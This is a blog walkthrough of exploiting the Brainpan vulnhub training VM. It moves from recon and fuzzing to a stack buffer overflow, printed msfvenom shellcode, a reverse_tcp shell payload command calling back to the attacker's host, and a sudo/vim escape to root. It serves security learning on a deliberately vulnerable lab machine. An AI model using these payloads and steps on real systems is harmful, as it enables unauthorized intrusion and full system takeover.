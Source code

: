 ```yaml
---
title: Exploiting Brainpan VM
date: '2023-03-11'
tags: ['cybersecurity', 'buffer-overflow', 'reverse-engineering', 'vulnhub']
draft: false
summary: Exploiting a buffer overflow vulnerability to gain access to a linux machine
layout: PostLayout
---
```


## Links

- Brainpan Machine: https://www.vulnhub.com/entry/brainpan-1,51/
- Immunity Debugger: https://debugger.immunityinc.com/ID_register.py
- mona.py module for Immunity Debugger: https://github.com/corelan/mona
- Exploit used: https://github.com/crypt0sploit/exploit_pcmanftpd2

## First scan (Recon)

After running a simple `nmap 192.168.101.0/24` range scan on nmap we get this interesting host that has the port **9999** and **10000** open

![Recon](/static/images/brainpan/recon.png)

When scanning the specific target with `nmap -sC -sV -sS [IP_ADDRESS]` , we got more information regarding those ports. We can see that there is a SimpleHTTPServer running and an **abyss?** service

![Nmap_Scan](/static/images/brainpan/nmap_scan.png)

This is what the webserver looks like

![webserver](/static/images/brainpan/webpage_1000.png)

And this is what the **abyss?** service looks like. Nothing useful for now, maybe we can try to find a way in by exploiting this service.

![netcat](/static/images/brainpan/netcat_port_999.png)

After running a directory scan on the webserver, I found `/bin` directory which had **brainpan.exe** inside a directory listing.

```bash
gobuster dir -u http://192.168.101.143:10000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/static/images/brainpan/gobuster_webscan.png)

![dirlist](/static/images/brainpan/bin_folder.png)

When running the executable I get the following output. It can be noticed the fact that this is the same service as the one on the target, running on port **9999**.

![exec](/static/images/brainpan/downloaded_exec.png)

It can be also noticed that the server gives an output whenever some client tries a password **"[get_reply] copied 5 bytes to buffer"**. This is useful because now we know that the server copies the characters to the buffer, a specific location in memory

![testing_exec](/static/images/brainpan/testing_exec.png)

---

## Fuzzing

The reason we need to fuzz the service is that we need to see if it crashes somewhere, that way we'll know if it's vulnerable to a **Buffer Overflow** exploit.

For this part we can use a short, easy-to-write, **Python** script. In this case I will use my own script for this kind of fuzzing. I'm using **Python2.7** because the exploit uses sockets and **Python2.7** does a great job working with sockets.

After running the script, we can see that there is a possibile crash at buffer length of 551

![fuzzing](/static/images/brainpan/fuzzing.png)

Now we know that there is a buffer overflow occuring. The next step is to see if the **EIP (Return Address)** has been overflown. We'll use **Immunity Debugger** and **mona.py**

**Command used:** `python2 exploit_pcmanftp.py -F 192.168.101.1 9999 550`

![fuzzing2](/static/images/brainpan/reverse_eng_a_bytes.png)

As it can be seen, the **EIP** has been overflown with _0x41_ four times, because of this, we know that we control the **EIP**. Now the next step is to find the location of the **Return Address** inside the stack. This can be achieved by using patterns instead of **A**'s.

**Command used:** `python2 exploit_pcmanftp.py -p 192.168.101.1 9999 550`

![returnaddr](/static/images/brainpan/getting_pattern_from_debugger.png)

The **Return Address** has a different value now. This offset value can be calculated with `msfpattern_offset`

![offset](/static/images/brainpan/matching_offset.png)

As it can be seen, the **return address** is located at the 524'th byte. This can be tested with **A**'s and **B**'s.

![getting_eip](/static/images/brainpan/identifying_address_space.png)

**0x42 = "B" 0x41 = "A"**

So now we have full control of **EIP**. The next step is to get the Address of the **Stack Pointer** or **ESP** to get to the `jmp esp` instruction. For this **mona.py** is the way to go.

![mona](/static/images/brainpan/getting_esp_address.png)

It can be seen that **ASLR** is disabled, which means that the program itself isn't protected. `0x35724134` is the address for `jmp esp` instruction.

---

## PoC (Proof of Concept)

For the **PoC** we'll try to pop `calc.exe` on **Windows 10**.
**SHELLCODE.PY**

**Command used:**

```bash
msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python > shellcode.py
```

```python
buf = b""
buf += b"\x6a\x30\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13"
buf += b"\xf4\xdd\xb5\xba\x83\xeb\xfc\xe2\xf4\x08\x35\x37\xba"
buf += b"\xf4\xdd\xd5\x33\x11\xec\x75\xde\x7f\x8d\x85\x31\xa6"
buf += b"\xd1\x3e\xe8\xe0\x56\xc7\x92\xfb\x6a\xff\x9c\xc5\x22"
buf += b"\x19\x86\x95\xa1\xb7\x96\xd4\x1c\x7a\xb7\xf5\x1a\x57"
buf += b"\x48\xa6\x8a\x3e\xe8\xe4\x56\xff\x86\x7f\x91\xa4\xc2"
buf += b"\x17\x95\xb4\x6b\xa5\x56\xec\x9a\xf5\x0e\x3e\xf3\xec"
buf += b"\x3e\x8f\xf3\x7f\xe9\x3e\xbb\x22\xec\x4a\x16\x35\x12"
buf += b"\xb8\xbb\x33\xe5\x55\xcf\x02\xde\xc8\x42\xcf\xa0\x91"
buf += b"\xcf\x10\x85\x3e\xe2\xd0\xdc\x66\xdc\x7f\xd1\xfe\x31"
buf += b"\xac\xc1\xb4\x69\x7f\xd9\x3e\xbb\x24\x54\xf1\x9e\xd0"
buf += b"\x86\xee\xdb\xad\x87\xe4\x45\x14\x82\xea\xe0\x7f\xcf"
buf += b"\x5e\x37\xa9\xb7\xb4\x37\x71\x6f\xb5\xba\xf4\x8d\xdd"
buf += b"\x8b\x7f\xb2\x32\x45\x21\x66\x4b\xb4\xc6\x37\xdd\x1c"
buf += b"\x61\x60\x28\x45\x21\xe1\xb3\xc6\xfe\x5d\x4e\x5a\x81"
buf += b"\xd8\x0e\xfd\xe7\xaf\xda\xd0\xf4\x8e\x4a\x6f\x97\xbc"
buf += b"\xd9\xd9\xf4\xdd\xb5\xba"
```

**Command used:** `python2 exploit_pcmanftp.py -e 192.168.101.1 9999 524`

![poc](/static/images/brainpan/calculator_poc.png)

IT WORKED! Now let's exploit the actual machine.

---

## Exploitation

For this part, a new shellcode is needed, we can use **msfvenom** to generate a new shellcode

**Command used:**

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=[LOCAL IP ADDRESS] LPORT=[LOCAL PORT] -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai -f python > shellcode.py
```

After executing the script again: `python2 exploit_pcmanftp.py -e 192.168.101.143 9999 524` we get a shell and we now have access to the machine.

![exploitation](/static/images/brainpan/msfconsole_handler.png)

![shell](/static/images/brainpan/first_shell.png)

---

## Privilege Escalation

In order to get `root` we'll need to privilege escalate the permisions and become root.

![fuzzing_privesc](/static/images/brainpan/priv_esc_fuzzing.png)

It can be seen that `anansi_util` can be executed as `root` without password.

![anansi](/static/images/brainpan/anansi_util_command.png)

We can see that this executable has **manual** parameter. Let's try to exploit this.

![root](/static/images/brainpan/getting_root.png)

This prompts a `vim` type of manual and we are able to execute commands. By pressing escape and then `:!/bin/bash` we'll get a `root` shell.

THANKS and HAPPY HACKING!!!!
